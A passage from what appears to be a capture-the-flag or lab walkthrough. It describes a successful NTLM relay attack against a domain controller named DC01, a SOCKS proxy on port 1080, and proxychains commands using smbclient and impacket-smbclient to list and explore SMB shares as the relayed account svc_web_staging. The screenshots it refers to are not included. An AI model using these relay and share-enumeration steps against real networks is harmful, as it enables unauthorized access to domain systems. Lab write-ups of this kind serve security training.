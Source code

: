 ![](image-12.png)

As you can see we perform relay attack and the authenticating against DC01 is succeed.

Also the socks proxy is ready on port 1080.

```sql
proxychains -q smbclient -U reflection/svc_web_staging -L \\\\10.10.214.101
```
![](image-13.png)

\
As you can see we can perform enumeration of shares in DC01 machine. There is also one unique share, whish is staging. Let's enumerate that share deeper.

```sql
proxychains -q impacket-smbclient reflection/svc_web_staging@10.10.214.101 -no-pass
```